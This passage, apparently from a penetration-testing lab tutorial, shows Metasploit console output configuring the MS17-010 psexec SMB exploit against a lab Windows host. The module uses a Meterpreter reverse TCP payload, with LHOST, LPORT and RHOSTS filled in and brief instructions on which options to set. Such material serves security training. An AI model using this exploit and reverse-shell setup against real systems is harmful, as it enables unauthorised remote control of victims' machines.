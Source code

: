```powershell
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Be sure to set your payload options correctly before running the exploit.
Any options that have Required set to yes will be a necessary space to fill.
In this instance, we need to ensure that our RHOSTS, LHOST, and LPORT fields are correctly set. For this attempt, accepting the defaults for the rest is OK.

Validate Options
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
```
